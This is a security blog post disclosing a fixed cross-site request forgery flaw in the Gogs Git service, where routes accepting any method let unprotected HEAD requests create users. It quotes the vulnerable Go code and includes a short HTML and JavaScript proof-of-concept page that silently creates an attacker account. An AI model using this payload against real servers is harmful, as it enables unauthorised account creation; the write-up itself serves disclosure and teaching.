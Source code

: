 ```yaml
---
date: 2014-06-30 04:15:48 GMT
slug: csrf-in-gogs-via-head
tags: Go,csrf
title: CSRF in Gogs via HEAD
author: Tom Steele
type: text
---
```


I'm a big fan of [Go](http://golang.org/), so I'm always on the look out for emerging projects within the community. One such project is [Gogs](http://gogs.io/), an open source self-hosted Git service. This is a pretty ambitious effort, and  definitely a project to watch. While looking over some of the code I identified a [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery) ("CSRF") vulnerability that presented itself in a not so common manner.

CSRF is a technique that exploits a server's inherit trust in the user's browser. In practice, an attacker will host a malicious site and submit requests on behalf of the user. There are [many techniques](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript) to do this, far too many to discuss here, but the results can be [devastating](http://disconnected.io/2014/03/18/how-i-hacked-your-router/).

Preventing CSRF is fairly straight forward, one common way is to use a double-submit token. Where a random value is stored in the user's session or a separate cookie, and when a request to change a resource is submitted, it is compared to a form value or header. This is the method used by Gogs. Code for token generation and extraction is [here](https://github.com/gogits/gogs/blob/99713e1180ad149faf6442bba311fec6e501aa00/modules/middleware/context.go#L245-L270). And we can see [here](https://github.com/gogits/gogs/blob/e323604d781268a39febced13a2fb6caae2d126c/modules/middleware/auth.go#L37-L40) that all POST requests must have a valid token, or a 403 is returned.

This is valid because applications should not change state via the GET method, and other methods, including DELETE, PUT, PATCH, etc. will be "preflighted" using the OPTIONS method to determine if the request if safe to send. A great resource for the wonder that is CORS rules is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS). As an aside, beware of only protecting POST routes, because [sometimes](http://blog.nodesecurity.io/post/60555138201/bypass-connect-csrf-protection-by-abusing) it's not enough. OK, now that were all experts, on with the vulnerability.

Gogs uses [Martini](https://github.com/go-martini/martini), which supports Sinatra like routing. We can see routes for managing users below.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/45462662e9bdb001f1cf3d4ca0e4d679757c7642/web.go

m.Group("/admin/users", func(r martini.Router) {
    r.Any("/new", bindIgnErr(auth.RegisterForm{}), admin.NewUser)
    r.Any("/:userid", bindIgnErr(auth.AdminEditUserForm{}), admin.EditUser)
    r.Any("/:userid/delete", admin.DeleteUser)
}, adminReq)
~~~~~

We see that `r` is the router variable and is using the `Any` method to setup routing. `Any` works how you probably expect, it accepts any method. Let's focus on the `"/new"` route, which is used to create a new user.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/d0e6a4c25acc3414f6d0f93cc50e6dcb41111c19/routers/admin/user.go

func NewUser(ctx *middleware.Context, form auth.RegisterForm) {
    ctx.Data["Title"] = "New Account"
    ctx.Data["PageIsUsers"] = true

    if ctx.Req.Method == "GET" {
        ctx.HTML(200, "admin/users/new")
        return
    }

    if form.Password != form.RetypePasswd {
        ctx.Data["HasError"] = true
        ctx.Data["Err_Password"] = true
        ctx.Data["Err_RetypePasswd"] = true
        ctx.Data["ErrorMsg"] = "Password and re-type password are not same"
        auth.AssignForm(form, ctx.Data)
    }

    if ctx.HasError() {
        ctx.HTML(200, "admin/users/new")
        return
    }

    u := &models.User{
        Name:     form.UserName,
        Email:    form.Email,
        Passwd:   form.Password,
        IsActive: true,
    }

    var err error
    if u, err = models.RegisterUser(u); err != nil {
        switch err {
        case models.ErrUserAlreadyExist:
            ctx.RenderWithErr("Username has been already taken", "admin/users/new", &form)
        case models.ErrEmailAlreadyUsed:
            ctx.RenderWithErr("E-mail address has been already used", "admin/users/new", &form)
        case models.ErrUserNameIllegal:
            ctx.RenderWithErr(models.ErrRepoNameIllegal.Error(), "admin/users/new", &form)
        default:
            ctx.Handle(200, "admin.user.NewUser", err)
        }
        return
    }

    log.Trace("%s User created by admin(%s): %s", ctx.Req.RequestURI,
        ctx.User.LowerName, strings.ToLower(form.UserName))

    ctx.Redirect("/admin/users")
}
~~~~~

We see that if the method is GET, then it returns and renders the template containing a form to create a new user, and if not, it creates the user. We saw earlier that POST's are protected, and other methods will be preflighted, but if you're following closely, and familiar with your CORS rules, you'll note that we didn't mention the HEAD method, which is not preflighted and does not require a token. Combine that with the behavior of the form parsing library, which treats query strings the same a payload and you have yourself CSRF.

An attacker can host the following to create a new user.

~~~~~html
<html>
    <head>
    <script>
      var http = new XMLHttpRequest();
      http.open('HEAD', 'http://your.git.computer/admin/users/new?username=badguy&email=badguy@evil.com&passwd=foobar&retypepasswd=foobar');
      http.withCredentials = true;
      http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      http.send();
    </script>
    </head>
    <body>
Hi
    </body>
</html>
~~~~~

The Gogs' development team was extremely responsive and fixed this within a day. To do this, they setup explicit routes and handlers for GET and POST methods, and removed all use of `ANY`. Not being explicit in what you're allowing from a user is the root of many vulnerabilities, and that is the lesson here, where possible only support what you're expecting and strictly validate all input.
